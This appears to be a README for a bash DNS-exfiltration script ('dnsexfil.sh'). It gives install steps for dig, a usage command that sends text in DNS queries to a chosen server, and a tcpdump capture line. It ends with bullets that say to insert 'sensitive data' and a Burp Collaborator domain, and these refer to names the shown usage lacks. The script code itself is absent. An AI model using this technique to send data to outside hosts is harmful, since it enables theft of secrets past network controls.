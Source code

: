 # DNS Text Sender Script

This bash script allows you to send the contents of a text variable using the DNS protocol. The text is broken into chunks and embedded into the DNS query field. If the text is too long for the maximum payload size, it is broken into multiple packets. The script allows you to specify the destination DNS server and sends the text 10 times in a row.

## Prerequisites

Ensure you have `dig` installed on your system. You can install it using your package manager if it's not already installed:

- Debian-based systems:
  ```sh
  sudo apt-get install dnsutils

- Red Hat systems:
  ```sh
  sudo yum install bind-utils

## Usage

  ```sh
  chmod +x dnsexfil.sh
  ./dnsexfil.sh "Your text to send" dns.server.address

  sudo tcpdump -i eth0 udp port 53 -vvv


	•	Replace "SensitiveData" with your actual sensitive data.
	•	Replace "your-collaborator-domain.burpcollaborator.net" with your Burp Collaborator domain.
	•	Make the script executable (chmod +x script_name.sh) and run it (./script_name.sh).



